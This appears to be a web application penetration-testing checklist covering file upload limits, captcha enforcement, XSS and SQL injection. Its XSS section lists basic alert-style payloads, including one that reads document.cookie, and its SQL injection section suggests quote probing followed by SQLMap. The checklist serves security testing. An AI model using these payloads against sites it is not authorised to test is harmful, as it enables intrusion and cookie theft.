 *...*

## File Upload

- Make sure that you can only upload allowed file types.
- Make sure that there is a reasonable file size is enforced.
- Make sure that the file cannot be sent to the server via burp repeater again and again. That might lead to a DoS attack.
- Test if you can intercept the upload request and send a malicious html file to perform XSS attack. Check [OTG-INPVAL-002](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)) page for details.

* * *

*...*

## CAPCHA

- Check out page source code to see if the app is hiding the captcha answer in the client side.
- Make sure that the captcha changes after failed login attempts.
- Make sure that the captcha is enforced on the server side.

* * *

*...*

## XSS

You can use the following payloads for manual testing. There are many more but these are the basic ones and gives you the low hanging fruit.

a. "><script>alert(1)</script>
b. <script>alert(document.cookie);</script>
c. <script>alert(1)</script>
d. <script>alert("hello")</script>
e. <a onmouseover="alert(13)">xxs link</a>
f. <img src="a.jpg" onerror="javascript:alert(1)"/>
g. ' onerror='alert(1)';
h. javascript:alert(1)
i. <body onload=alert("XSS")>
j. <img src=x onError=alert('xss')>

* * *

*...*

## SQL Injection

Put a single quote in every search box you see in the app and check if you can get an error. If you do, further investigate with SQL Map.